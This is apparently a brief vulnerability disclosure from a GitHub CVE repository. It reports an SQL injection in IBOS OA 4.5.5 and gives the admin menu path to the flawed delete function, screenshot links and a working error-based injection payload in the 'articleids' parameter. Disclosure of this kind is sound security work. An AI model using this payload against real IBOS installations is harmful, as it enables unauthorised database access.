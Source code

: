 SQL injection vulnerability in ibos oa v4.5.5

official website： http://www.ibos.com.cn/

version：4.5.5 

Log in to the background. General Office => Information Bulletin => Release Information => Delete Information => Delete Log Capture Error Injection Successful

![图片5](https://github.com/xiaosed/cve/assets/84080097/e32216ae-6ae2-4bde-8efe-866924b91701)
![图片6](https://github.com/xiaosed/cve/assets/84080097/c48be67e-76d4-445e-b06c-16e7fc8c319c)
![图片7](https://github.com/xiaosed/cve/assets/84080097/097266da-f280-416c-b67f-3ebf585ee5b7)



Payload：articleids=extractvalue(1,concat(char(126),md5(1404461947)))

Sqlmap：

![图片8](https://github.com/xiaosed/cve/assets/84080097/f9003cfd-a237-4729-b830-1389245314cb)

